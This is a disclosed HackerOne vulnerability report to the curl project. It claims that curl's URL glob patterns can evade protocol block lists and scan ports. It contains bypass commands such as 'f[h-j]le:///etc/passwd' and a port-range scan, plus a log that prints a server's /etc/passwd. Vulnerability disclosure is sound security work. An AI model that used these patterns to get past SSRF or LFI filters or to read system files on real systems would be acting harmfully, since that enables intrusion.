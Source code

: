 # error parse uri path in curl

## Report Details
- **Report ID**: 1566462
- **URL**: https://hackerone.com/reports/1566462
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-05-12T06:20:27.886Z
- **Disclosed**: 2022-05-13T20:34:41.536Z

## Reporter
- **Username**: iylz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:
[add summary of the vulnerability]

The uri path error could lead to security filter bypasses. 
For example, 
we can use  curl  -vv 'f[h-j]le:///etc/passwd' to bypass  file protocol  black list
we can use  curl  -vv 'http://1.1.1.1:[80-9000]' to scan the open port in the host
etc ...

## Steps To Reproduce:
[add details for how we can reproduce the issue]

curl -vv 'f[h-j]le:///etc/passwd' will  parse 3 request , like  curl -vv 'fhle:///etc/passwd' 、curl -vv 'file:///etc/passwd' 、curl -vv 'fjle:///etc/passwd' 
```
[root@iz2ze9awqx4bwtc7j5q4hsz bin]# ./curl -Version
curl 7.83.1 (x86_64-pc-linux-gnu) libcurl/7.83.1 zlib/1.2.7
Release-Date: 2022-05-11
Protocols: dict file ftp gopher http imap mqtt pop3 rtsp smtp telnet tftp 
Features: alt-svc AsynchDNS IPv6 Largefile libz UnixSockets
[root@iz2ze9awqx4bwtc7j5q4hsz bin]# ./curl -vv 'f[h-j]le:///etc/passwd'
* Protocol "fhle" not supported or disabled in libcurl
* Closing connection -1
curl: (1) Protocol "fhle" not supported or disabled in libcurl
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-bus-proxy:x:999:998:systemd Bus Proxy:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
admin:x:1000:1000::/home/admin:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
postgres:x:26:26:PostgreSQL Server:/var/lib/pgsql:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
workftp:x:1002:1003::/home/work/ftp/:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
* Closing connection 0
* Protocol "fjle" not supported or disabled in libcurl
* Closing connection -1
curl: (1) Protocol "fjle" not supported or disabled in libcurl
[root@iz2ze9awqx4bwtc7j5q4hsz bin]# wget 'f[h-j]le:///etc/passwd'
f[h-j]le:///etc/passwd: 地址缺少协议类型.
[root@iz2ze9awqx4bwtc7j5q4hsz bin]# 
```

So, I think this is a security questions of  curl, because the wget doesn't have same question. Thinks 

## Supporting Material/References:
[list any additional material (e.g. screenshots, logs, etc.)]

  * [attachment / reference]

## Impact

bypass the security filter like the SSRF/RFL/LFI  etc.

## Attachments
- 1.png
